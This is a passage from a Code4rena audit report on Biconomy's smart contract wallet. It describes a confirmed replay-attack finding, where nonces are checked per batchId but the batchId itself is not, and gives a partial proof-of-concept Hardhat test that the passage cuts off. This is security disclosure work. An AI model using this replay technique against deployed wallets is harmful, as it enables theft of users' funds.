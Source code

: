 **[livingrockrises (Biconomy) confirmed](https://github.com/code-423n4/2023-01-biconomy-findings/issues/123#issuecomment-1403248885)**



***

## [[H-07] Replay attack (EIP712 signed transaction)](https://github.com/code-423n4/2023-01-biconomy-findings/issues/36)
*Submitted by [Tointer](https://github.com/code-423n4/2023-01-biconomy-findings/issues/36), also found by [V\_B](https://github.com/code-423n4/2023-01-biconomy-findings/issues/485), [Tricko](https://github.com/code-423n4/2023-01-biconomy-findings/issues/424), [Haipls](https://github.com/code-423n4/2023-01-biconomy-findings/issues/371), [Koolex](https://github.com/code-423n4/2023-01-biconomy-findings/issues/316), [peakbolt](https://github.com/code-423n4/2023-01-biconomy-findings/issues/305), [0xdeadbeef0x](https://github.com/code-423n4/2023-01-biconomy-findings/issues/235), [PwnedNoMore](https://github.com/code-423n4/2023-01-biconomy-findings/issues/210), [romand](https://github.com/code-423n4/2023-01-biconomy-findings/issues/166), [ro](https://github.com/code-423n4/2023-01-biconomy-findings/issues/61), [csanuragjain](https://github.com/code-423n4/2023-01-biconomy-findings/issues/48), [HE1M](https://github.com/code-423n4/2023-01-biconomy-findings/issues/43), [taek](https://github.com/code-423n4/2023-01-biconomy-findings/issues/38), and [orion](https://github.com/code-423n4/2023-01-biconomy-findings/issues/6)*

[contracts/smart-contract-wallet/SmartAccount.sol#L212](https://github.com/code-423n4/2023-01-biconomy/blob/53c8c3823175aeb26dee5529eeefa81240a406ba/scw-contracts/contracts/smart-contract-wallet/SmartAccount.sol#L212)<br>

Signed transaction can be replayed. First user transaction can always be replayed any amount of times. With non-first transactions attack surface is reduced but never disappears.

### Why it is possible

Contract checks `nonces[batchId]` but not `batchId` itself, so we could reuse other batches nounces. If before transaction we have `n` batches with the same nonce as transaction batch, then transaction can be replayed `n` times. Since there are 2^256 `batchId`s with nonce = 0, first transaction in any batch can be replayed as much times as attacker needs.

### Proof of Concept

Insert this test in `testGroup1.ts` right after `Should set the correct states on proxy` test:

    it("replay EIP712 sign transaction", async function () {
      await token
      .connect(accounts[0])
      .transfer(userSCW.address, ethers.utils.parseEther("100"));

    const safeTx: SafeTransaction = buildSafeTransaction({
      to: token.address,
      data: encodeTransfer(charlie, ethers.utils.parseEther("10").toString()),
      nonce: await userSCW.getNonce(0),
    });

    const chainId = await userSCW.getChainId();
    const { signer, data } = await safeSignTypedData(
      accounts[0],
      userSCW,
      safeTx,
      chainId
    );
